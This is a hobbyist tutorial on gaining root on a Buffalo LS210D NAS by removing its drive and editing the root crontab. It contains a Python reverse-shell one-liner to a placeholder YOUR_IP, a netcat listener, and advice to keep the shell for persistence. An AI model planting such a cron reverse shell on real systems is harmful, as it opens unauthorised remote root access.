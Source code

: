 How to Hack your Buffalo LS210D and get Root  
Christopher J. Pace and Ryan Miller

The LS210D is a Network Attached Storage (NAS) drive manufactured by Buffalo. Despite having recent vulnerabilities, the NAS drive appears to be well made. One of the best features of this NAS is that it runs Linux, specifically kernel version 3.3.4 (ARM). This means that if you had full root access to the device, you could install additional software or write your own web server. The NAS also comes with Python 2.7.2 and PHP-CGI version 5.3.23, making it the perfect platform for tinkering. However, out-of-the-box, the NAS does not allow full root access or allow SSH connectivity. This guide, part of our research on vulnerabilities for the Buffalo LS210D, is provided for anyone who legitimately owns an LS210D and wishes to have that root access.

Other than firmware tampering, you can also get access to the Buffalo LS210D via an external hard drive reader and a spare PC. You can probably depress the plastic catches on the outside of the NAS drive, but I decided to take a more drastic approach.



Once you have opened your LS210D, you can see that a spinner is mounted into a SATA interface on the system board. Unscrew the screws on the hard drive, and then slide while lifting to remove the hard drive. You can also remove the hard drive bracket, which may make it easier to remove the hard drive. To remove the hard drive bracket, gently rock it back and forth before lifting. There is a thermal pad that sits between the hard drive bracket and the CPU, gently rocking the hard drive bracket will allow you to remove the pad without tearing it.

Inserting the hard drive into a Linux-based PC (or using free ext3 Windows utilities), mount the hard drive. From here, you are looking to modify the file /etc/cron/crontabs/root, where you can add the following two lines at the bottom:

**\*/5 \* \* \* \* /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("YOUR\_IP",8088));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/bash","-i"\]);'**  
**\*/5 \* \* \* \* /usr/sbin/sshd**

Obviously replace the text YOUR\_IP with the IP address of a computer on the same network as the LS210D, making sure to preserve the quotes. The first line spawns a shell via python, and connects to another computer’s netcat session. The second line spawns the SSH service. These commands are ran every 5 minutes, but there is no noticeable impact of having them re-run continuously. If you would like, you can remove the first line once you’ve established a stable SSH session.

Once you’ve written those two lines to the root crontab file, start a netcat session on your PC that is on the same network as the LS210D:

**netcat -l 8088**

Once that command has entered on your computer, put the LS210D back together, and start it up. Once the clock reaches any minute that is divisible by 5, you will have an incoming connection from the NAS to your listening netcat session.



Once you receive the message “bash: no job control in this shell”, you’ll have full root privileges on the NAS. However, netcat is notoriously unstable, so you will want to immediately reset the root password via the ‘passwd’ command. Finally, you need to generate the host SSH keys, via these commands:

**ssh-keygen -t rsa -f /etc/ssh\_host\_rsa\_key -N ""**  
**ssh-keygen -t dsa -f /etc/ssh\_host\_dsa\_key -N ""**  
**ssh-keygen -t dsa -f /etc/ssh\_host\_key -N ""**



Now, after another 5 minutes, you should be able to SSH into the NAS. Make sure to confirm SSH access before terminating your netcat session, to make sure you didn’t mistype your new root password. Enjoy your new root privileges!

**To enable persistence, leave the reverse shell intact. If the Buffalo NAS is shut down improperly or loses power, it will reset the root password back to the default. The reverse shell configuration will enable you to reset the password back to whatever you want.**
